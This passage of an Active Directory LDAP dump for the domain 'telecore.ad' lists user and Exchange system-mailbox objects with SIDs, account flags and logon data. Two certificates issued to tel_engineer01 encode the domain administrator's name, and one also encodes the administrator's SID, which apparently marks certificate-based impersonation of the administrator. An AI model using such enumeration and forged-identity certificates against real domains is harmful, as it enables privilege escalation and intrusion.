 HrqI2588MCVZpCS76xizCvn1n7TIypuJ8K6C9BHh1/9xy0RLg919PfgHUxLrVznxsoHWbN0HsRdSv
 VGvnY7rSZkAennemm8n/w6jrrwOU5qBAYJbc+efqyPOkMUusc+flKWUf45YcX82POvWn2I9MEi1wz
 VFybhq2hmfxfwtUjZNnYN9H1JymmAQqrlzbeCcPBECNj9c9xLUnQNhZTf8OrOaY1AqeIn6kry1UlY
 XkA9Hf1sPGS2tcPBUHk0fxtmzrIvoar8JUgntJl1HkK0DIEtqg==
userCertificate:: MIIGoDCCBYigAwIBAgITFgAAAASQGP72C70/iAAAAAAABDANBgkqhkiG9w0B
 AQsFADBMMRIwEAYKCZImiZPyLGQBGRYCYWQxGDAWBgoJkiaJk/IsZAEZFgh0ZWxlY29yZTEcMBoGA
 1UEAxMTdGVsZWNvcmUtUEtJLVNSVi1DQTAeFw0yNTA4MjExNDQ0MTBaFw0yNjA4MjExNDQ0MTBaMB
 kxFzAVBgNVBAMMDlRlbF9lbmdpbmVlcjAxMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQE
 Atj1Eq7Iim0VhR/Oro20+x9CzeM1u6F3iqQrwKqvJEAUaEzb2kUT3CHEueVTY8dcL8UD8rqHTHYqX
 rBXd3vHHqXU2DeLd3ZHzsziD077nzgXdjGO1JbK4rlrORW8b/RmnkQ7RXb4TRI4ZMuzhve6iyjXA4
 ktLZHl0pw4+GZTzsj2mkBut8+55HnucCJgnAqmbElaUqtHgGask9R2CHvkyEN93fafbLwBb0Ivd0L
 rEnaMEXEv0Tlron7Ag1s8d+OjlOHr4FrFnQRGwS+xWlYkf0I6bclOA3jmwas7yk3/qB50wNIo4MPa
 POgq+q86c4JReTwkaZQuLuRs3EHML0dSI4wIDAQABo4IDrDCCA6gwTQYJKwYBBAGCNxkCBEAwPqA8
 BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTE1ODgyNDc0MDctNDEwNjI1MDM5LTE1MTE3OTQ1MjItN
 TAwMIGDBgNVHREEfDB6oCkGCisGAQQBgjcUAgOgGwwZYWRtaW5pc3RyYXRvckB0ZWxlY29yZS5hZI
 ZNdGFnOm1pY3Jvc29mdC5jb20sMjAyMi0wOS0xNDpzaWQ6Uy0xLTUtMjEtMTU4ODI0NzQwNy00MTA
 2MjUwMzktMTUxMTc5NDUyMi01MDAwHQYDVR0OBBYEFE5xqf8hseBSyVi7oNkhea4Kez23MB8GA1Ud
 IwQYMBaAFBCZ6gHKqez7MgIqd1c4j+kMa43eMIHRBgNVHR8EgckwgcYwgcOggcCggb2GgbpsZGFwO
 i8vL0NOPXRlbGVjb3JlLVBLSS1TUlYtQ0EsQ049UEtJLVNydixDTj1DRFAsQ049UHVibGljJTIwS2
 V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1
 hZD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
 aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggrBgEFBQcwAoaBpWxkYXA6Ly8vQ049dGVsZ
 WNvcmUtUEtJLVNSVi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydm
 ljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1hZD9jQUNlcnRpZmljYXRlP2Jhc2U
 /b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAOBgNVHQ8BAf8EBAMCBaAwPQYJKwYB
 BAGCNxUHBDAwLgYmKwYBBAGCNxUIhPPde4eioTqEhYM1guXQa4H6o1YbgunjPoPW/hQCAWQCAQUwK
 QYDVR0lBCIwIAYKKwYBBAGCNwoDBAYIKwYBBQUHAwQGCCsGAQUFBwMCMDUGCSsGAQQBgjcVCgQoMC
 YwDAYKKwYBBAGCNwoDBDAKBggrBgEFBQcDBDAKBggrBgEFBQcDAjBEBgkqhkiG9w0BCQ8ENzA1MA4
 GCCqGSIb3DQMCAgIAgDAOBggqhkiG9w0DBAICAIAwBwYFKw4DAgcwCgYIKoZIhvcNAwcwDQYJKoZI
 hvcNAQELBQADggEBALtem1Iwtak1iobjJExq8LIwpeIu2c3ixBakdvyS3Cu7FKW9tU3k+RlyrGVqz
 /05m+3Q2NTv4XItx+wgkb3qBO/PD6I9TtLohQwJLwlflgI3E3V/+KXYs7wWUR89I9QM55UM9Id/Dg
 or1jsDzXhjQLohqQL01L0A2dcRvHnCE6dQ2cRtRmPXr2RYf9Hqvk//b01+rsXiy8pfqEiBRzKreOg
 qyy7NqHry0ITwWQAsK9n5KuuscpO6qLxtSabUmT/ktUYP3hhvGjZlVmHrUfOgSqAR/xebhzDAb9st
 qka7noOfS5DVRRDVBrfzBlIPP4qso6JEEotIj96vRwMy+8mMZr0=
userCertificate:: MIIGATCCBOmgAwIBAgITFgAAAALJ7JE6wxUVxgAAAAAAAjANBgkqhkiG9w0B
 AQsFADBMMRIwEAYKCZImiZPyLGQBGRYCYWQxGDAWBgoJkiaJk/IsZAEZFgh0ZWxlY29yZTEcMBoGA
 1UEAxMTdGVsZWNvcmUtUEtJLVNSVi1DQTAeFw0yNTA4MjExNDIzMTVaFw0yNjA4MjExNDIzMTVaMB
 kxFzAVBgNVBAMMDlRlbF9lbmdpbmVlcjAxMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQE
 Auc2n4qinU8fuP+ssH+g+SxToKJeiudlnpUh8IQhm2EteX1n/8zIv51eXalQda0TkIWKvxfItQiM8
 PE9hJHLJgfFmAnTzpoOCHnF6n0d8XH7mIQMcm+UGl45rdkDvZDAFFf/5fr+987O3cA6GisoyTl2il
 fOXB7pTOFMekdo4isL4rSRm7/oTLaEIHaqudXwTYC1inbpAWuNxpofusv0k5aq9GtwssQ65kjvCwd
 M2G/KS/1u44GRIEfm0Il+0ROyWag1CjY8as/e4L2W3B7iG7YDp1ChnshiTpfmf7nnCZVIfDZZJ6Vt
 WUggWtB1Jvtf+syXxJcyU6qRjbOodxRnKlwIDAQABo4IDDTCCAwkwNAYDVR0RBC0wK6ApBgorBgEE
 AYI3FAIDoBsMGWFkbWluaXN0cmF0b3JAdGVsZWNvcmUuYWQwHQYDVR0OBBYEFLlyUVKhaZAccnPTs
 aiu18v3NjAMMB8GA1UdIwQYMBaAFBCZ6gHKqez7MgIqd1c4j+kMa43eMIHRBgNVHR8EgckwgcYwgc
 OggcCggb2GgbpsZGFwOi8vL0NOPXRlbGVjb3JlLVBLSS1TUlYtQ0EsQ049UEtJLVNydixDTj1DRFA
 sQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixE
 Qz10ZWxlY29yZSxEQz1hZD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc
 3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggrBgEFBQcwAoaBpW
 xkYXA6Ly8vQ049dGVsZWNvcmUtUEtJLVNSVi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2V
 ydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1hZD9jQUNl
 cnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAOBgNVHQ8BA
 f8EBAMCBaAwPQYJKwYBBAGCNxUHBDAwLgYmKwYBBAGCNxUIhPPde4eioTqEhYM1guXQa4H6o1Ybgu
 njPoPW/hQCAWQCAQUwKQYDVR0lBCIwIAYKKwYBBAGCNwoDBAYIKwYBBQUHAwQGCCsGAQUFBwMCMDU
 GCSsGAQQBgjcVCgQoMCYwDAYKKwYBBAGCNwoDBDAKBggrBgEFBQcDBDAKBggrBgEFBQcDAjBEBgkq
 hkiG9w0BCQ8ENzA1MA4GCCqGSIb3DQMCAgIAgDAOBggqhkiG9w0DBAICAIAwBwYFKw4DAgcwCgYIK
 oZIhvcNAwcwDQYJKoZIhvcNAQELBQADggEBAJru/q5+RkEge56GE2ibQ4CJE2iLv+C0xizCkiWqlv
 050oxtl3cZZwhMS87BdjU8l0ocZPrMbDzbWesMpJajPs2iJfrbG7/vJ21o3Ld1wo8vvvneHo3ty7/
 c1/6FhaloHLAdZsK9ES/GjqiRO0y3LKafYW7mLxGSqiohm6a4/s3QQq+y3L0FmWV0/2Xf1SXBH/ys
 H53INw5l8BD9Z4a887pXMB6mRG+owS2FvYpnsfhnlZkePbuL+0CPBNpu25ZxxnZegm6YABx8YMcG+
 /2+/yHUSeqCN9y9o6XeKszQ1QX1h8nmh/sUlsjN2j6UEQX+w8FGq/k9aC8wV5n+IvcfE84=
givenName: tel_engineer01
distinguishedName: CN=tel_engineer01,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250820105056.0Z
whenChanged: 20251005075847.0Z
displayName: tel_engineer01
uSNCreated: 42850
uSNChanged: 152810
name: tel_engineer01
objectGUID:: URlOzmkOJkSCc+FOxr+OtA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 134026754275622350
lastLogoff: 0
lastLogon: 134041247278860450
pwdLastSet: 134001606566155296
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaXQQAAA==
accountExpires: 9223372036854775807
logonCount: 3
sAMAccountName: tel_engineer01
sAMAccountType: 805306368
userPrincipalName: tel_engineer01@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 134041247278860450

# tel_billing01, Users, telecore.ad
dn: CN=tel_billing01,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: tel_billing01
givenName: tel_billing01
distinguishedName: CN=tel_billing01,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250820105135.0Z
whenChanged: 20250820105135.0Z
displayName: tel_billing01
uSNCreated: 42858
uSNChanged: 42863
name: tel_billing01
objectGUID:: htClunlzGkKUreebzihOgQ==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 134001606951716670
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaXgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: tel_billing01
sAMAccountType: 805306368
userPrincipalName: tel_billing01@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 16010101000001.0Z

# Exchange Online-ApplicationAccount, Users, telecore.ad
dn: CN=Exchange Online-ApplicationAccount,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Exchange Online-ApplicationAccount
distinguishedName: CN=Exchange Online-ApplicationAccount,CN=Users,DC=telecore,
 DC=ad
instanceType: 4
whenCreated: 20250910115202.0Z
whenChanged: 20250910115202.0Z
uSNCreated: 91887
uSNChanged: 91888
garbageCollPeriod: 1209600
name: Exchange Online-ApplicationAccount
objectGUID:: L+cOBDlN50Sv/GKhSpT7Nw==
userAccountControl: 546
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxacgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: $I31000-N3U7EHD5TSFS
sAMAccountType: 805306368
userPrincipalName: Exchange_Online-ApplicationAccount@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 16010101000001.0Z
msExchAddressBookFlags: 1
msExchVersion: 1130555651391488
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchModerationFlags: 6
msExchMailboxAuditEnable: FALSE
msExchRecipientDisplayType: 12
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRecipientTypeDetails: 33554432
msExchUMEnabledFlags2: -1
msExchUserBL: CN=MeetingGraphApplication-Exchange Online-ApplicationAccount,CN
 =Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,C
 N=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=MailboxSearchApplication-Exchange Online-ApplicationAccount,C
 N=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,
 CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=TeamMailboxLifecycleApplication-Exchange Online-ApplicationAc
 cou,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Serv
 ices,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Mailbox Search-Exchange Online-ApplicationAccount,CN=Role Ass
 ignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configu
 ration,DC=telecore,DC=ad
msExchUserBL: CN=LegalHoldApplication-Exchange Online-ApplicationAccount,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=ArchiveApplication-Exchange Online-ApplicationAccount,CN=Role
  Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Con
 figuration,DC=telecore,DC=ad
msExchUserBL: CN=UserApplication-Exchange Online-ApplicationAccount,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchBypassAudit: FALSE

# SystemMailbox{1f05a927-da73-4a43-86c4-b09cf3b29d4f}, Users, telecore.ad
dn: CN=SystemMailbox{1f05a927-da73-4a43-86c4-b09cf3b29d4f},CN=Users,DC=telecor
 e,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: SystemMailbox{1f05a927-da73-4a43-86c4-b09cf3b29d4f}
sn: MSExchApproval 1f05a927-3be2-4fb9-aa03-b59fe3b56f4c
distinguishedName: CN=SystemMailbox{1f05a927-da73-4a43-86c4-b09cf3b29d4f},CN=U
 sers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115205.0Z
whenChanged: 20250911100942.0Z
displayName: Microsoft Exchange Approval Assistant
uSNCreated: 91981
uSNChanged: 94533
proxyAddresses: SMTP:SystemMailbox{1f05a927-da73-4a43-86c4-b09cf3b29d4f}@telec
 ore.ad
name: SystemMailbox{1f05a927-da73-4a43-86c4-b09cf3b29d4f}
objectGUID:: 4tPvuvIiaUOWqo2WR8Bn/g==
userAccountControl: 514
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxacwQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: SM_c1ec4d36a10041249
sAMAccountType: 805306368
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=4f35357b1df949c9aff6aaed7dda2923-SystemMailb
userPrincipalName: SystemMailbox{1f05a927-da73-4a43-86c4-b09cf3b29d4f}@telecor
 e.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250911100942.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115205.0Z
dSCorePropagationData: 16010101000416.0Z
mail: SystemMailbox{1f05a927-da73-4a43-86c4-b09cf3b29d4f}@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchApprovalApplicationLink: CN=ModeratedRecipients,CN=Approval Applications
 ,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=teleco
 re,DC=ad
msExchApprovalApplicationLink: CN=AutoGroup,CN=Approval Applications,CN=Teleco
 re Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 1126140425011200
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 2
msExchDumpsterQuota: 31457280
msExchProvisioningFlags: 0
msExchWhenMailboxCreated: 20250911100942.0Z
msExchModerationFlags: 6
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchELCMailboxFlags: 130
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:797836624526913052927327342438624209233229343
msExchUMDtmfMap: lastNameFirstName:6739242777682513052927323243292203259333256
 342
msExchUMDtmfMap: firstNameLastName:6739242777682513052927323243292203259333256
 342
msExchRequireAuthToSendTo: TRUE
msExchMasterAccountSid:: AQEAAAAAAAUKAAAA
msExchDumpsterWarningQuota: 20971520
mailNickname: SystemMailbox{1f05a927-da73-4a43-86c4-b09cf3b29d4f}
msExchMailboxAuditEnable: FALSE
msExchRecipientDisplayType: 10
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAAFAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 8388608
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxTemplateLink: CN=ArbitrationMailbox,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: 1d3rGQ6kHk+y//xZq8LAlg==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: FALSE
msExchBypassAudit: FALSE

# SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}, Users, telecore.ad
dn: CN=SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c},CN=Users,DC=telecor
 e,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}
sn: SystemMailbox bb558c35-97f1-4cb9-8ff7-d53741dc928c
distinguishedName: CN=SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c},CN=U
 sers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115205.0Z
whenChanged: 20250911101147.0Z
displayName: Microsoft Exchange
uSNCreated: 91986
uSNChanged: 94601
proxyAddresses: SMTP:SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@telec
 ore.ad
name: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}
objectGUID:: NCTKd/mYFEK4z0T0yXjUiQ==
userAccountControl: 514
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxadAQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: SM_c5f15b848f534ea8a
sAMAccountType: 805306368
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=2ff2e51d88f04cbd9aa2a568f164b75c-SystemMailb
userPrincipalName: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@telecor
 e.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250911100947.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115205.0Z
dSCorePropagationData: 16010101000416.0Z
mail: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchApprovalApplicationLink: CN=ModeratedRecipients,CN=Approval Applications
 ,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=teleco
 re,DC=ad
msExchApprovalApplicationLink: CN=AutoGroup,CN=Approval Applications,CN=Teleco
 re Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 1126140425011200
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 2
msExchDumpsterQuota: 31457280
submissionContLength: 1048576
msExchProvisioningFlags: 0
msExchWhenMailboxCreated: 20250911100947.0Z
msExchModerationFlags: 6
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchCapabilityIdentifiers: 52
msExchCapabilityIdentifiers: 51
msExchCapabilityIdentifiers: 47
msExchCapabilityIdentifiers: 44
msExchCapabilityIdentifiers: 43
msExchCapabilityIdentifiers: 42
msExchCapabilityIdentifiers: 40
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 130
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:797836624526922558235973142298337353741329282
msExchUMDtmfMap: lastNameFirstName:7978366245269225582359731422983373537413292
 82
msExchUMDtmfMap: firstNameLastName:7978366245269225582359731422983373537413292
 82
msExchRequireAuthToSendTo: TRUE
msExchMasterAccountSid:: AQEAAAAAAAUKAAAA
msExchDumpsterWarningQuota: 20971520
mailNickname: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}
msExchMailboxAuditEnable: FALSE
msExchRecipientDisplayType: 10
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAAFAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 8388608
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxTemplateLink: CN=ArbitrationMailbox,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: DJGheWYW90SZIaU2UdIDyQ==
msExchGroupSecurityFlags: 0
msExchOABGeneratingMailboxBL: CN=Default Offline Address Book,CN=Offline Addre
 ss Lists,CN=Address Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=
 Services,CN=Configuration,DC=telecore,DC=ad
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: FALSE
msExchBypassAudit: FALSE

# SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}, Users, telecore.ad
dn: CN=SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9},CN=Users,DC=telecor
 e,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}
sn: MsExchDiscovery e0dc1c29-89c3-4034-b678-e6c29d823ed9
distinguishedName: CN=SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9},CN=U
 sers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115205.0Z
whenChanged: 20250911101156.0Z
displayName: Microsoft Exchange
uSNCreated: 91991
uSNChanged: 94605
proxyAddresses: SMTP:SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@telec
 ore.ad
name: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}
objectGUID:: jw1ONsYbG0ShM0w29iqK0g==
userAccountControl: 514
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxadQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: SM_cb1a4738ace045d7b
sAMAccountType: 805306368
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=1f5c5ba42025489cba35b0fa963a5ee9-SystemMailb
userPrincipalName: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@telecor
 e.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250911100952.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115205.0Z
dSCorePropagationData: 16010101000416.0Z
mail: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 1126140425011200
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 2
msExchDumpsterQuota: 31457280
msExchProvisioningFlags: 0
msExchWhenMailboxCreated: 20250911100952.0Z
msExchModerationFlags: 6
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchCapabilityIdentifiers: 41
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:797836624526930321229892340342678362293823339
msExchUMDtmfMap: lastNameFirstName:6739243472683793032122989234034267836229382
 3339
msExchUMDtmfMap: firstNameLastName:6739243472683793032122989234034267836229382
 3339
msExchRequireAuthToSendTo: TRUE
msExchMasterAccountSid:: AQEAAAAAAAUKAAAA
msExchDumpsterWarningQuota: 20971520
mailNickname: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}
msExchMailboxAuditEnable: FALSE
msExchRecipientDisplayType: 10
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAAFAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 8388608
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxTemplateLink: CN=ArbitrationMailbox,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: lefkkNycpkuZ2bGEvXhK9Q==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: FALSE
msExchBypassAudit: FALSE

# DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}, Users, telecor
 e.ad
dn: CN=DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852},CN=Users,
 DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}
sn: MsExchDiscoveryMailbox D919BA05-46A6-415f-80AD-7E09334BB852
distinguishedName: CN=DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334B
 B852},CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115205.0Z
whenChanged: 20250911101150.0Z
displayName: Discovery Search Mailbox
uSNCreated: 91996
uSNChanged: 94603
proxyAddresses: SMTP:DiscoverySearchMailbox{D919BA05-46A6-415f-80AD-7E09334BB8
 52}@telecore.ad
name: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}
objectGUID:: CU7BnTzby0mtlljAyHqmIQ==
userAccountControl: 514
badPwdCount: 0
codePage: 0
countryCode: 0
